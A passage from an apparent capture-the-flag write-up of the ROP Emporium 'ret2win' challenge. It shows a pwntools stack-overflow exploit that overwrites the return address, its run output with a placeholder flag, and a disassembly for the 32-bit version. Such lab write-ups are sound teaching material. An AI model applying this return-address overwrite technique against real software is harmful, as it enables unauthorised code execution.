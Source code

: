 ### Exploit

```python
from pwn import *

padding = b"a"*40
ret2win_addr = p64(0x400756)

payload = padding + ret2win_addr

p = process('./ret2win')
p.sendline(payload) 
p.interactive()
```

* Let's run the exploit.

```
$ python exploit.py 
[+] Starting local process './ret2win': pid 26803
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag}
```

##

## 32 bit

* In order to create an exploit we need to know the following:
  * Address of `ret2win`
  * Distance between the buffer and return address

### ret2win()

* Let's disassemble `ret1win`.

```
pwndbg> disassemble ret2win
Dump of assembler code for function ret2win:
   0x0804862c <+0>:     push   ebp
   0x0804862d <+1>:     mov    ebp,esp
   0x0804862f <+3>:     sub    esp,0x8
   0x08048632 <+6>:     sub    esp,0xc
   0x08048635 <+9>:     push   0x80487f6
   0x0804863a <+14>:    call   0x80483d0 <puts@plt>
   0x0804863f <+19>:    add    esp,0x10
   0x08048642 <+22>:    sub    esp,0xc
   0x08048645 <+25>:    push   0x8048813
   0x0804864a <+30>:    call   0x80483e0 <system@plt>
   0x0804864f <+35>:    add    esp,0x10
   0x08048652 <+38>:    nop
   0x08048653 <+39>:    leave
   0x08048654 <+40>:    ret
End of assembler dump.
```
